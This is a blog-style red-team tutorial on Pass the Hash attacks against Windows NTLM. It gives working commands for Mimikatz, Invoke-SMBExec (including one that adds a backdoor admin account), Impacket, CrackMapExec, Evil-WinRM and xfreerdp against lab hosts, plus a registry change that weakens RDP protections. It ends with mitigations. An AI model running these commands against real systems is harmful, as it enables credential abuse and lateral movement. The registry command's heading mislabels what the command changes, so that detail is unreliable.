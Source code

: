 ```yaml
---

title: "Pass the Hash (PtH) Attack: A Practical Guide"
date: 2025-05-25 00:00:00 +0000
categories: \[Security, Red Team]
tags: \[pass-the-hash, NTLM, windows, pentesting, mimikatz, impacket, crackmapexec]
pin: false
----------

A Pass the Hash (PtH) attack is a technique in which an attacker uses a password hash to authenticate to remote systems instead of the plaintext password. This method exploits authentication protocols like NTLM that accept hashed credentials without decrypting them. Since the hash remains valid until the user changes the password, it can be reused multiple times, making it a powerful attack vector.

---
```


### Requirements for a PtH Attack

To execute a PtH attack, the attacker typically needs elevated privileges on the target system to extract password hashes. Common methods to acquire these hashes include:

* Dumping the Security Account Manager (SAM) database.
* Extracting hashes from the NTDS.dit file on a Domain Controller.
* Retrieving hashes from memory (e.g., lsass.exe).

---

## Windows NTLM Overview

NTLM (New Technology LAN Manager) is a challenge-response authentication protocol still used in Windows environments, primarily for backward compatibility. However, it lacks modern security features like salting passwords, making it vulnerable to PtH attacks.

Read more at Microsoft's documentation: [NTLM Authentication](https://learn.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm)

---

## Performing PtH Attacks

### 1. **Using Mimikatz (Windows)**

Mimikatz includes the `sekurlsa::pth` module, which starts a new process with a specified user's hash:

```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe"
```

Reference: [Mimikatz GitHub](https://github.com/gentilkiwi/mimikatz)

---

### 2. **Invoke-TheHash (Windows)**

Invoke-TheHash is a PowerShell toolset for PtH attacks using SMB and WMI:

```powershell
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add"
```

For a reverse shell, use: [https://www.revshells.com](https://www.revshells.com)

Tool: [Invoke-TheHash GitHub](https://github.com/Kevin-Robertson/Invoke-TheHash)

---

### 3. **Impacket PsExec (Linux)**

Impacket provides various Python-based tools for network attacks:

```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

Tool: [Impacket GitHub](https://github.com/fortra/impacket)

---

### 4. **CrackMapExec (Linux)**

CrackMapExec is ideal for automating enumeration and attack steps in AD environments:

```bash
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

Documentation: [NetExec Wiki](https://netexec.readthedocs.io/en/latest/)

---

### 5. **Evil-WinRM (Linux)**

Evil-WinRM allows PowerShell Remoting with hashes:

```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

Tool: [Evil-WinRM GitHub](https://github.com/Hackplayers/evil-winrm)

---

### 6. **Using xfreerdp for RDP (Linux)**

Ensure Restricted Admin Mode is enabled, then:

```bash
xfreerdp /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

More on configuring RDP for PtH: [FreeRDP Wiki](https://github.com/FreeRDP/FreeRDP/wiki)

---

## UAC and LocalAccountTokenFilterPolicy

UAC restricts remote administrative access for local accounts unless configured properly. Modify these registry keys to enable remote use:

```bash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

For more details, see Will Schroeder’s blog: [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)

---

## Conclusion

Pass the Hash remains a critical threat in Windows environments relying on NTLM. Tools like Mimikatz, Impacket, and CrackMapExec make exploitation straightforward if proper defenses aren't in place. Organizations should consider mitigating PtH by disabling NTLM where possible, enforcing strong credential hygiene, using LAPS, and monitoring authentication logs.

**Always test ethically and in controlled environments. For educational use only.**
